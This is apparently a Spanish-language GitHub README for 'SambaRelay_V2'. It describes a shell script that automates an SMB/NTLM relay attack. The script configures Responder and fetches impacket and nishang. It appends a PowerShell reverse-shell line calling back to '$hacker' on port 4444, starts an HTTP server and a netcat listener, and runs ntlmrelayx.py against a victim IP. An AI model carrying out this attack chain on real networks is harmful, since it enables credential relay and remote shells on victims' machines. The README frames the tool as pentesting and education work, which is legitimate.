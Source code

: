 
# SambaRelay_V2

Canal de youtube  https://youtube.com/c/Anonimo501

Grupo en Telegram https://t.me/Pen7esting

## Samba Relay V2

Este script es creado para fines educativos o para hacer auditorias profesionales de pentesting a nivel empresarial, no me hago responsable del mal uso de dicho  script, este script automatiza la modificacion del archivo Responder.conf en los valores SMB = Off y HTTP = Off, locual lo deja a la escucha, tambien descarga automaticamente https://github.com/SecureAuthCorp/impacket y descarga https://github.com/samratashok/nishang en nishang ingresa a nishang/Shells/ copia el archivo y lo renombra cp Invoke-PowerShellTcp.ps1 PS.ps1, al archivo PS.ps1 se le añade una linea al final que es la siguiente  Invoke-PowerShellTcp -Reverse -IPAddress $hacker -Port 4444, se deja a la escucha un server http automaticamente con el siguiente comando python -m SimpleHTTPServer, dejamos nc a la escucha rlwrap nc -nlvp 4444, no es necesario instalar los requerimientos de impacket o nishang ya que el script lo hace automaticamente, tambien crea un archivo llamado targets.txt dentro de /impacket/examples el cual contiene la  ip victima y por ultimo se ejecutal ntlmrelayx.py para lograr el acceso.

Esta Version del script basicamente lo que se le añade es el menu de opciones que nos permite la ejecucion del script nuevamente sin tener que reinstalar todo desde cer0

El script se ejecuto sobre ParrotOS 4.10

![smb relay v2](https://user-images.githubusercontent.com/67207446/119186517-ce30ad00-ba3d-11eb-9faf-21401a143fbc.PNG)




git clone https://github.com/Anonimo501/SambaRelay_V2.git

cd SambaRelay_V2/

chmod +x SMB_Relay_v2.sh

./SMB_Relay.sh


# Referencias

SecureAuth Corporation.https://github.com/SecureAuthCorp/impacket
SamratAshok.https://github.com/samratashok/nishang
